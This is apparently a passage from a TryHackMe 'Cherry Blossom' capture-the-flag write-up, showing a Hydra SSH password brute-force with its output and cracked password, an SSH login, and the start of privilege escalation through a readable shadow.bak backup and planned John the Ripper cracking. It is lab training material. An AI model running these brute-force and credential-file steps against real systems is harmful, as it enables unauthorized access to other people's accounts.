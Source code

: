 ![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bd2e1b2f-c6ee-4017-ab60-6f253b94a772)

Lets go ahead and paste the output in a file, lets say ```cherry-blossom.txt```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/43f10679-ae6e-477e-b032-88dc474bfac5)

So, we'll be using this password combination on the username ```lily```. This is to see if we can find the password for the ssh server.

command:```hydra -l lily -P cherry-blossom.txt ssh://10.10.231.170```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/TryHackMe/Cherry_Blossom]
└─$ hydra -l lily -P cherry-blossom.txt ssh://10.10.231.170 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-13 18:17:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9040 login tries (l:1/p:9040), ~565 tries per task
[DATA] attacking ssh://10.10.231.170:22/
[STATUS] 83.00 tries/min, 83 tries in 00:01h, 8960 to do in 01:48h, 13 active
[STATUS] 82.33 tries/min, 247 tries in 00:03h, 8796 to do in 01:47h, 13 active
[STATUS] 77.43 tries/min, 542 tries in 00:07h, 8501 to do in 01:50h, 13 active
[22][ssh] host: 10.10.231.170   login: lily   password: Mr.$un$hin3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-13 18:26:21
```
cool stuff, we found the  password to be ```Mr.$un$hin3```. Lets use this to login to the ssh server

```username:lily```             ```password:Mr.$un$hin3```

command:```ssh lily@10.10.231.170```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/338079de-749b-4aff-a1f4-a6dcc4603463)

cool, we are logged in as user ```lily```. Now, lets go ahead and escalate our privileges.




# Privilege Escalation

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/98dccc01-8190-4feb-a7c4-22c94b14e14d)

We got something interesting in the ```/var/backups``` directory hehe. Why is this interesting?? Well, it is because we can view the ```shadow.bak``` file which contains the hashed passwords of users available on the machine.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6e91ce14-98b2-4b90-8500-aee382e1c317)

Lets try to crack user ```johan``` password using a tool called ```John the Ripper```. Well, John already left the party so I had to call him back to help us out with this.

```